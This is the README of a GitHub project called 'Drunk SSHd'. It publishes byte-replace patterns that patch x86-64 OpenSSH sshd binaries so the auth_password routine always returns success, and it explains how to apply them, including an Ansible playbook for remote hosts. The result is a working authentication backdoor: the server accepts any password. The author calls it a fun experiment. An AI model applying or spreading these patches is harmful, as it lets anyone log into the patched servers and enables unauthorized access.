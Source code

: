 # Drunk SSHd
> :warning: This project was an experiment purely for fun and should be treated as such. Do NOT put in production!

Ever wondered what happens if SSHd has a little too much to drink? Well, it starts accepting any password as valid. This repo contains generic byte replace patterns that will patch any x86-64 `sshd` binary to accept any password as valid.

## Notes
Although the patterns are as generic as possible, they are only for x86-64 and may not work on all OpenSSH versions. Tested versions are as follows:
- Lubuntu 19.10
- Kali 2019.4
- Linux Mint 19.3 XFCE

The tested binaries can be found in [samples](samples).

## Patching
### Remote
Check out the provided Ansible [playbook](ansible-playbook.yml).
### Local
Use my [byte pattern patcher](https://github.com/ViRb3/byte-pattern-patcher) with [this patch file](patch-drunk-sshd.json) and target your `sshd` binary. You should see `three` replaced occurances, `one` for each pattern.

## Methodology
The patterns will patch all exit routines in `auth-passwd.c`'s
```c
int auth_password(struct ssh *ssh, const char *password)
```

to return true, therefore authenticated.

## Patterns
- Patch auth_password exit routine 1
```
31 ?? 85 ?? 0f 95 ?? 21 ??
31 ?? ?? ?? b8 01 00 00 00

31 [11......] 	// XOR
85 [11......] 	// TEST
0f 95 [11......] 	// SETNZ -> MOV EAX, 0x1
21 [11......] 	// AND -> OVERWRITTEN
```

- Patch auth_password exit routine 2
  - 2 variations (check patch file)
```
21 ?? 0f b6 ?? eb ??
b8 01 00 00 00 ?? ??

21 [11......] 	// AND -> MOV EAX, 0x1
0f b6 [11......] 	// MOVZX -> OVERWRITTEN
eb [........] 	// JMP
```

- Patch auth_password exit routine 3
  - 2 variations (check patch file)
```
85 ?? 0f 95 ?? 83 3d ?? ?? ?? ?? 01 74 ?? 8B ?? ?? ?? ?? ?? 85 ??
85 ?? 0f 95 ?? 83 3d ?? ?? ?? ?? 01 74 ?? 8B ?? ?? ?? ?? ?? 39 ??

85 [11......] 	// TEST
0f 95 [11......] 	// SETNZ
83 3d [........] [........] [........] [........] 01 	// CMP
74 [........] 	// JZ
8b [00...101] [........] [........] [........] [........] 	// MOV
85 [11......] 	// TEST -> CMP
```